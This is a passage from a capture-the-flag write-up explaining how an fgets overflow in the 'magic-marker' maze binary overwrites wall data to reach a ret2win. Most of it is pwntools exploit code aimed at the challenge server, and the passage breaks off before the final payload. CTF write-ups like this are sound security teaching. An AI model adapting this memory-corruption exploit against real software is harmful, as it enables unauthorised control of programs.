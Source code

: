 Lastly our vuln is this `fgets` that will take are current position and allow us to write out a message on the tile, however it can overwrite the wall data.  A simple string of `0x20` * `0xFF` will simply enable us to move in any direction.  Including _off the grid_.

We just have to be very careful when _off the grid_ not to corrupt the canary.  Otherwise it's a simple ret2win challenge.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./magic-marker')

if args.REMOTE:
    p = remote('chals.damctf.xyz', 31313)
else:
    p = process(binary.path)

p.sendlineafter(b'?\n',b'jump up and down')
```

There's a small gate to get past to start the game, simply `jump up and down`.

```python
# where am i?
p.sendlineafter(b'): ',b'm')

x = y = 0
for i in range(80):
    _ = p.recvline().strip()
    if b'|' in _:
        y += 1
    if b'*' in _:
        x = (2 + _.find(b'*')) // 4
        break

log.info('x,y = {x},{y}'.format(x = x, y = y))
```

Next, we need to find where we are in the maze.  The above just scans the output of `m` (print maze) to find our location.

```python
# kick down the walls and get to the lower right
for i in range(40 - x):
    p.sendlineafter(b'): ', b'x')
    p.sendlineafter(b'?\n', 0x20 * b'\xff')
    p.sendlineafter(b'): ', b'd')

for j in range(40 - y):
    p.sendlineafter(b'): ', b'x')
    p.sendlineafter(b'?\n', 0x20 * b'\xff')
    p.sendlineafter(b'): ', b's')
```
